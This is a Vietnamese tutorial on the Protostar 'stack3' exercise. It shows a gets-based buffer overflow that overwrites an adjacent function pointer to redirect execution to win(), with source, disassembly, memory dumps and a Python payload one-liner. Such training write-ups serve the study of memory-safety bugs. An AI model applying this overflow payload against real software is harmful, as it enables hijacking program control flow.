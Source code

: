 ```yaml
---
layout: post
title: stack3
---
```

Trong những bài trước, chúng ta đã biết cách gán giá trị mong muốn gián tiếp cho một biến.
Ứng dụng của kỹ thuật này sẽ được giới thiệu trong stack3.
Mục tiêu của bài này là gán gián tiếp biến function pointer, và gọi hàm, hay cũng chính là điều hướng chương trình đến địa chỉ hàm cần gọi.
Hãy xem source code sau:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
Ta cần gán cho function pointer `fp` địa chỉ của hàm `win`.
Khi source code được compile, symbol của `win` sẽ có mặt trong section .text của chương trình.
Để biết được địa chỉ của hàm `win`, ta có thể dùng chương trình `objdump` có trên linux.
Bạn cũng có thể dùng `gdb` với lệnh `disassemble` xem asm code của `win`, trong đó có cả thông tin về địa chỉ hàm.
Sau đây là asm code của `main` và `win`:
```asm
0x08048424 <win+0>:     push   ebp
0x08048425 <win+1>:     mov    ebp,esp
0x08048427 <win+3>:     sub    esp,0x18
0x0804842a <win+6>:     mov    DWORD PTR [esp],0x8048540
0x08048431 <win+13>:    call   0x8048360 <puts@plt>
0x08048436 <win+18>:    leave
0x08048437 <win+19>:    ret
0x08048438 <main+0>:    push   ebp
0x08048439 <main+1>:    mov    ebp,esp
0x0804843b <main+3>:    and    esp,0xfffffff0
0x0804843e <main+6>:    sub    esp,0x60
0x08048441 <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048449 <main+17>:   lea    eax,[esp+0x1c]
0x0804844d <main+21>:   mov    DWORD PTR [esp],eax
0x08048450 <main+24>:   call   0x8048330 <gets@plt>
0x08048455 <main+29>:   cmp    DWORD PTR [esp+0x5c],0x0
0x0804845a <main+34>:   je     0x8048477 <main+63>
0x0804845c <main+36>:   mov    eax,0x8048560
0x08048461 <main+41>:   mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:   mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:   mov    DWORD PTR [esp],eax
0x0804846c <main+52>:   call   0x8048350 <printf@plt>
0x08048471 <main+57>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:   call   eax
0x08048477 <main+63>:   leave
0x08048478 <main+64>:   ret
```
2 biến `buffer` và `fp` chiếm bộ nhớ liên tiếp nhau, lần lượt là 64 byte `esp + 0x1c` đến `esp + 0x5b` và 4 byte từ `esp + 0x5c`.
Áp dụng kỹ thuật tương tự như 3 bài trước, chúng ta sẽ nhập 68 byte cho `buffer`, trong đó 4 byte cuối có giá trị bằng với địa chỉ của `win`.
Địa chỉ của hàm `win` là `0x08048424`.
Trước khi nhập vào, bộ nhớ sẽ như sau.
Phân biệt theo màu: <span style="color:aqua">buffer</span> và <span style="color:orangered">modified</span>.
<pre class="memory">
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      <span style="color:aqua">0xb7eada75</span>
0xbffff760:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x0804967c</span>      <span style="color:aqua">0xbffff778</span>      <span style="color:aqua">0x0804830c</span>
0xbffff770:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x0804967c</span>      <span style="color:aqua">0xbffff7a8</span>      <span style="color:aqua">0x080484a9</span>
0xbffff780:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048490</span>      <span style="color:aqua">0xbffff7a8</span>
0xbffff790:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x0804849b</span>      <span style="color:orangered">0x00000000</span>
</pre>
68 byte sau đây sẽ được dùng để nhập giá trị cho `buffer`:
```bash
python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + '\x24\x84\x04\x08'" > input.txt
stack3 < input.txt
```
Sau hàm `gets`, bộ nhớ tại `esp` sẽ như sau.

<pre class="memory">
0xbffff740:     0xbffff75c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff750:     0xb7fd7ff4      0xb7ec6165      0xbffff768      <span style="color:aqua">0x41414141</span>
0xbffff760:     <span style="color:aqua">0x42424242</span>      <span style="color:aqua">0x43434343</span>      <span style="color:aqua">0x44444444</span>      <span style="color:aqua">0x45454545</span>
0xbffff770:     <span style="color:aqua">0x46464646</span>      <span style="color:aqua">0x47474747</span>      <span style="color:aqua">0x48484848</span>      <span style="color:aqua">0x31313131</span>
0xbffff780:     <span style="color:aqua">0x32323232</span>      <span style="color:aqua">0x33333333</span>      <span style="color:aqua">0x34343434</span>      <span style="color:aqua">0x35353535</span>
0xbffff790:     <span style="color:aqua">0x36363636</span>      <span style="color:aqua">0x37373737</span>      <span style="color:aqua">0x38383838</span>      <span style="color:orangered">0x08048424</span>
</pre>

Địa chỉ, khi viết từng byte sẽ cần phải đảo ngược thứ tự để đảm bảo tiêu chuẩn Little Endian.

## Ref
```bash
user@protostar:~$ python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + '\x24\x84\x04\x08'" > input.txt
user@protostar:~$ stack3 < input.txt
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
